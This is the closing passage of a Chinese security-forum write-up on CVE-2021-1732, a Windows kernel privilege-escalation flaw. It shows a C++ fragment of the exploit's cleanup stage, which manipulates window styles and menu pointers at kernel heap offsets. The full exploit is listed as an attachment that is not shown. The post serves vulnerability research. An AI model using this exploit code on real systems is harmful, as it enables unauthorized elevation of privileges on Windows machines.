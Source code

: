 ```
 
    ULONGLONG ululStyle = *(ULONGLONG*)((PBYTE)g_pWnd[1] + g_dwExStyle_offset);
    ululStyle |= 0x4000000000000000L;//WS_CHILD
    SetWindowLongPtr(g_hWnd[0], dwpWnd0_to_pWnd1_kernel_heap_offset + g_dwExStyle_offset, ululStyle);  //Modify add style WS_CHILD
 
    ULONG_PTR pMyMenu = SetWindowLongPtr(g_hWnd[1], GWLP_ID, (LONG_PTR)pSPMenu);
    //free pMyMenu
 
    ululStyle &= ~0x4000000000000000L;//WS_CHILD
    SetWindowLongPtr(g_hWnd[0], dwpWnd0_to_pWnd1_kernel_heap_offset + g_dwExStyle_offset, ululStyle);  //Modify Remove Style WS_CHILD
 
    std::cout << "Recovery bug prevent blue screen." << std::endl;
}

```

### 8. 最终我们构造的 Exploit 代码为：

```
附件.

```

[看雪学院推出的专业资质证书《看雪安卓应用安全能力认证 v1.0》（中级和高级）！](https://bbs.pediy.com/thread-265424.htm)

最后于 1 天前 被 KernelKiller 编辑 ，原因：

上传的附件：

*   [CVE-2021-1732 研究及 Exploit 开发. pdf](javascript:void(0)) （892.45kb，69 次下载）
*   [CVE-2021-1732_Exploit.cpp](javascript:void(0)) （15.85kb，75 次下载）